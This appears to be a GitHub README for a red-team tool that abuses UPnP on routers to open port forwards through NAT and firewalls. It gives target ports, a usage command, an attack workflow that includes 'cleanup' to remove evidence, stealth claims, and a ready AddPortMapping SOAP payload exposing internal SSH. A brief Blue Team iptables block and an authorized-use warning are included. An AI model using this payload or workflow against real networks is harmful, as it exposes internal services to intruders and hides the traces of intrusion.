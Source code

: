 # UPnP Portmapper Exploit Tool 🔥

**A stealthy UPnP router exploitation tool for bypassing NAT/firewalls**

## Core Functionality
- **Automated UPnP exploitation** via SOAP requests
- **Multi-threaded** port scanning (8 threads)
- **Proxy-aware** (127.0.0.1:8080)
- **Self-cleaning** (removes port mappings post-scan)

## Target Ports
```python
['21', '22', '23', '80', '443', '8080', '139', '445', '135', '3389', '110', '25', '49152']
```

Attack Vectors
Technique	SOAP Action	Risk
Port Forwarding	AddPortMapping	🔴 High
Firewall Bypass	NAT traversal via UPnP	🔥 Critical
Service Exposure	Internal → External port mapping	🎯 Medium

Usage
```bash

python3 upnp_control.py <router_ip> <network_prefix>
# Example:
python3 upnp_control.py external_ip local_ip
```

Exploit Workflow

Recon
    Identifies UPnP service on port 49152

Weaponize
    Injects port mapping rules via SOAP

Verify
    Checks if ports are externally accessible

Cleanup
    Removes evidence via DeletePortMapping

Red Team Benefits
    Internal network pivoting
    RDP/SSH/SMB exposure
    Low detection rate (legitimate UPnP traffic)

Blue Team Countermeasures
```bash
# Disable UPnP on routers:
iptables -A INPUT -p tcp --dport 1900 -j DROP
iptables -A INPUT -p udp --dport 1900 -j DROP
```
Sample SOAP Payload
```xml
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{target}</NewRemoteHost>
      <NewExternalPort>1337</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>22</NewInternalPort>
      <NewInternalClient>192.168.1.100</NewInternalClient>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>
```
⚠️ Warning: Use only on authorized systems. UPnP exploitation may violate security policies.
